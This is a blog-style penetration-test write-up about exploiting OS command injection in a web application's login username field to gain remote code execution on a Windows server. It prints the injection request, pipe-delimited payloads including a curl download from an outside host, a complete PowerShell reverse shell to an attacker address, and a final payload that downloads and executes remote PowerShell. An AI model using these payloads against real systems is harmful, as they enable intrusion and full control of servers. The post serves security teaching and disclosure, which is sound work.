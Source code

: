 ```yaml
---
title: "OS Command Injection to Remote Code Execution"
layout: post
date: 2024-12-10 02:0
categories: blog
---
```


Exploiting OS Command Injection for Remote Code Execution.

## Target Background

The target is a web application designed for asset management, allowing users to create and manage assets efficiently.

## Authentication Mechanisms

The application supports multiple authentication methods, including a standard login form, Google SSO, and GitHub SSO.

## Identifying the Attack Vector

The attack vector was identified as the login form. Users authenticate by submitting valid credentials through this form. Detailed reconnaissance revealed that the **username** field in the JSON request object is susceptible to OS Command Injection.

## Attack Surface Analysis

During reconnaissance, it was determined that the application operates on a Windows environment. This insight guided the selection of Windows-specific OS command payloads for vulnerability testing. The application’s response was observed to return boolean values (true or false), prompting the use of out-of-band (OOB) techniques to confirm the existence of the vulnerability.

As the application response was observed to be boolean **true** or **false** the out of band request technique was used to confirm the attack vector.

### Request

```http
POST /username_exists HTTP/1.1
Host: target.com
Cookie: session cookie: hello
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Connection: keep-alive

{
	"username": "whoami"
}
```

### Response

```http
HTTP/1.1 200 OK
Server: nginx/1.22.1
Date: Wed, 23 Oct 2024 14:55:05 GMT
Content-Type: text/html; charset=utf-8
Connection: keep-alive
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Download-Options: noopen
X-Permitted-Cross-Domain-Policies: none
Referrer-Policy: strict-origin-when-cross-origin
Cache-Control: no-store
Pragma: no-cache

{
	"success": false
}
```

To validate the attack vector, various OOB techniques such as ping, curl, and wget were employed. Payloads using the ping command revealed variations in response times, confirming the vulnerability.

## Example Payloads

Windows OS Command injection payload used for exploitation.

```text
|ping -c 5 127.0.0.1||
|curl https://thevillagehacker.com/exploit/file.txt||
```

Using the curl technique, a file was successfully downloaded from a remote server, confirming command injection.

## Exploitation

Based on the Windows environment of the application, a PowerShell reverse shell payload was selected for exploitation. This approach enabled a reverse connection to the attacker’s machine.

## PowerShell Reverse Shell Payload

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

## Final Exploitation Payload

```powershell
|powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('https://thevillagehacker.com/mypowershell.ps1')"||
```

Upon injecting the above payload, a reverse shell connection was established with the application server. Since the application was running with administrative privileges, full control of the server was achieved.

## Conclusion

The exploitation of an OS Command Injection vulnerability in the **username** field of the login form enabled remote code execution on the target system. The successful attack highlights the importance of securing input fields and implementing robust validation mechanisms to prevent such vulnerabilities.

## Reference

- https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).